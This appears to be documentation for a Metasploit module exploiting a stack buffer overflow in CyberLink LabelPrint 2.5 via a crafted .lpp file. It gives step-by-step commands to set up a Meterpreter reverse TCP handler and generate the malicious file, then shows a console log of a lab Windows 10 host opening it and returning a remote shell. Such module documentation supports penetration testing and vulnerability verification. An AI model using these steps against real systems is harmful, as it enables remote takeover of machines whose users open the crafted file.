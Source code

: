 ## Description

This module exploits a stack buffer overflow in CyberLink LabelPrint 2.5 and below.
The vulnerability is triggered when opening a .lpp project file containing overly long string characters
via open file menu. This results in overwriting a structured exception handler record and take over the
application. This module has been tested on Windows 7 (64 bit), Windows 8.1 (64 bit), and Windows 10 (64 bit).

## Vulnerable Application

CyberLink LabelPrint v2.5, which is available with [Power2Go 12 Essential](https://www.cyberlink.com/downloads/trials/power2go-platinum/download_en_US.html)

## Verification Steps

1. `./msfconsole`
2. `use exploit/multi/handler`
3. `set payload windows/meterpreter/reverse_tcp`
4. `set lhost <lhost>`
5. `set exitonsession false`
6. `exploit -j`
7. `use windows/fileformat/cyberlink_lpp_bof`
8. `set lhost <lhost>`
9. `set target 2`
10. `exploit`
11. Copy file to Win10 host and open in vulnerable software
12. Get a shell

## Scenarios

### Tested Windows 10 x64 running CyberLink LabelPrint v2.5

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 172.22.222.132 
lhost => 172.22.222.132
msf exploit(multi/handler) > set exitonsession false
exitonsession => false
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf exploit(multi/handler) >
[*] Started reverse TCP handler on 172.22.222.132:4444
use windows/fileformat/cyberlink_lpp_bof
msf exploit(windows/fileformat/cyberlink_lpp_bof) > set lhost 172.22.222.132 
lhost => 172.22.222.132
msf exploit(windows/fileformat/cyberlink_lpp_bof) > set target 2
target => 2
msf exploit(windows/fileformat/cyberlink_lpp_bof) > exploit

[*] Creating 'msf.lpp' file ...
[+] msf.lpp stored at /home/msfdev/.msf4/local/msf.lpp
msf exploit(windows/fileformat/cyberlink_lpp_bof) >
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.132:4444 -> 172.22.222.200:50522) at 2018-12-11 06:24:38 -0600
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.22.222.200 - Meterpreter session 1 closed.  Reason: User exit
```
